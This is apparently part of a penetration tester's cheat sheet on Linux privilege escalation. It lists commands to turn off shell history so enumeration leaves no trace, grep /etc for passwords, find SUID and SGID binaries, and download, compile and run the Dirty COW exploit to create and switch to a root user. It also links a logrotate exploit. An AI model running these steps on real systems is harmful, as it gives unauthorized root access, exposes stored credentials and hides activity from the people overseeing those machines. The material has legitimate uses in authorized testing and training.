 ## Linux

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

Disable shell history when enumerating around:

```
$ unset HISTFILE
```



### Filesystem

- [https://github.com/vivami/SauronEye](https://github.com/vivami/SauronEye)

Grep for sensitive keywords:

```
$ grep -nir passw /etc/ 2>/dev/null
```

Find and list all files newer than `2020-03-16` and not newer than `2020-03-17`:

```
$ find / -type f -readable -newermt '2020-03-16' ! -newermt '2020-03-17' -ls 2>/dev/null
```

Find SUID binaries:

```
 # User
$ find / -type f -perm /4000 -ls 2>/dev/null
 # Group
$ find / -type f -perm /2000 -ls 2>/dev/null
 # Both
$ find / -type f -perm /6000 -ls 2>/dev/null
```



### Dirty COW

* [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

```
$ curl -L https://github.com/FireFart/dirtycow/raw/master/dirty.c > dirty.c
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty Passw0rd
$ su firefart
```



### logrotate

* [https://github.com/whotwagner/logrotten/blob/master/logrotten.c](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)

